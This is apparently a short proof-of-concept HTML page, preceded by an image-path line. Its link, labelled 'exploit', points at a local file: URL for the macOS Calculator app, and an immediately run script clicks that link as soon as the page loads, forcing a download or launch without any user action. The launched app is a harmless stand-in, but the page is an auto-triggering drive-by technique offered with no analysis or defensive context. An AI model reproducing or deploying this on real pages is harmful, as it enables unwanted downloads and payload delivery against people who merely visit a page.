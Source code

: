 <!DOCTYPE html>
<html>
<body>

<a href="file:\\\Applications\Calculator.app" id=exploit download>
  <img src="/images/exploit.jpg" alt="exploit" width="104" height="142">
</a>

<script>
(function download() {
    document.getElementById('exploit').click();
})()
</script>

</body>
</html>
